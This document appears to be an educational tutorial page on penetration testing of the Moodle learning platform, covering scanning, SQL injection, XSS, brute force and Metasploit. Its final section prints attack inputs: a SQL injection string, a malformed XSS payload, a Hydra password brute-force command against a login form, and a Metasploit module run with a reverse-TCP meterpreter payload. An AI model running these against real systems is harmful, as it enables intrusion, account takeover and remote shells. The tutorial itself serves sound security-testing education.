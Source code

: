 # Moodle pentesting


# 👉 Overview

---

### 👀 What ?

Moodle pentesting refers to the process of testing Moodle, an open-source learning management system, for vulnerabilities that could potentially be exploited by cyber attackers.


### 🧐 Why ?

Moodle, being widely used in academic and corporate settings, holds a significant amount of sensitive information such as personal details, academic records, and even financial data in some cases. Therefore, ensuring the security of Moodle is of utmost importance. Pentesting can help identify weaknesses and vulnerabilities in the system before they are exploited by malicious hackers.


### ⛏️ How ?

Moodle pentesting involves using various techniques and tools to identify potential vulnerabilities. This might include scanning for security holes, injecting malicious scripts, attempting to bypass access controls, or exploiting known vulnerabilities. Once vulnerabilities are identified, they should be documented, reported, and remediated as soon as possible.


### ⏳ When ?

Moodle pentesting should be conducted regularly, ideally as part of a continuous security monitoring strategy. It is particularly important after any system updates or changes, as these can introduce new vulnerabilities.


# ⚙️ Technical Explanations

---

Moodle pentesting is a comprehensive process that involves several methods and techniques to identify vulnerabilities in Moodle, an open-source learning management system. The process starts with scanning using tools such as Nmap, which can help identify open ports and running services that could potentially be exploited.

Input validation vulnerabilities can be identified using SQL injection and Cross-Site Scripting (XSS) attacks. In an SQL injection, a tester tries to enter SQL commands into input fields to manipulate the database, revealing whether the system is vulnerable to such attacks. XSS attacks involve injecting malicious scripts into webpages viewed by other users, testing whether the system sanitizes user inputs properly.

Another important technique in pentesting is brute force attacks, which are used to test the strength of passwords and account lockout policies. In these attacks, the tester tries to gain access by systematically trying all possible combinations until the correct one is found.

Known vulnerabilities can be exploited using tools like Metasploit, a penetration testing software that helps in automating the comparison of a system's vulnerabilities against known exploits.

Once the pentest is completed, the results should be carefully analyzed to identify the system's weaknesses. Any vulnerabilities found must be documented, reported, and fixed promptly to enhance the system's security. It's essential to remember that Moodle pentesting should be conducted regularly and especially after any system updates or changes, as new vulnerabilities can be introduced. This continuous monitoring approach helps maintain a strong security posture for the system.

Here's a simplified, educational example of how SQL injection and Cross-Site Scripting (XSS) might be used in Moodle pentesting.

1. **SQL Injection:** A tester might enter a string into a Moodle search box that looks something like this: `' OR '1'='1`. This is a simple SQL command that will always evaluate to true. If Moodle doesn't properly sanitize inputs, this command could expose sensitive data. In a real-world scenario, more complex SQL commands could be used.

Command:

`' OR '1'='1`

1. **Cross-Site Scripting (XSS):** In an XSS attack, a tester might try to inject a script into a user-input field to see if it gets executed. For instance, if Moodle has a comment section, a tester might enter something like `<scriptalert('XSS');</script`. If Moodle doesn't properly sanitize inputs, when another user views the comment, they'll see a pop-up alert saying "XSS". This shows that malicious scripts can be injected.

Command:

`<scriptalert('XSS');</script`

1. **Brute Force Attack:** A brute force attack could be performed using a tool like Hydra. For example, if there's a login page, a tester could use Hydra to systematically try combinations from a list of common passwords until the correct one is found.

Command:

`hydra -l username -P /usr/share/wordlists/rockyou.txt moodle.site http-post-form "/login:index.php:username=^USER^&password=^PASS^:F=incorrect" -V`

1. **Metasploit:** If a known vulnerability exists in Moodle, a tester might use Metasploit to exploit it. For example, if Moodle is vulnerable to a certain type of remote code execution, a tester could use a Metasploit module specifically designed for that vulnerability.

Command:

`msfconsole`

`use exploit/multi/http/moodle_cmd_exec`

`set RHOSTS target.site`

`set payload php/meterpreter/reverse_tcp`

`set LHOST your.ip`

`run`

Please remember that these examples are for educational purposes and should not be used for malicious intentions. Always get proper authorization before conducting any pentesting activities.
